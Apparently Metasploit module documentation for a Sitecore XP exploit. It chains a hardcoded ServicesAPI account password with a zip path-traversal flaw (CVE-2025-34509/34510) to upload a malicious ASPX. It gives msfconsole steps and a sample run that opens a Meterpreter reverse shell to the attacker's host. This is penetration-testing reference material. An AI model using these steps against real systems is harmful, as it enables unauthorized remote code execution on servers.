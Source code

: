 ## Vulnerable Application

The Sitecore Experience Platform (XP) is flagship CMS product. Provides comprehensive digital marketing tools, view of customer data and many other features. Sitecore deploys multiple default service accounts when installing, among them ServicesAPI. The versions from 10 to 10.4 have hardcoded password for this account - the password is letter b (CVE-2025-34509). This account is used to gain access and exploit additional vulnerability - path traversal in zip extraction (CVE-2025-34510). This module exploits both vulnerabilities to gain remote code execution by uploading malicious ASPX into root directory of webserver.

### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform). Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34510`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP - when installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions. 


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.

## Scenarios

```
msf exploit(windows/http/sitecore_xp_cve_2025_34510) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 2 opened (192.168.3.7:4444 -> 10.5.132.138:50530) at 2025-08-26 13:05:53 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
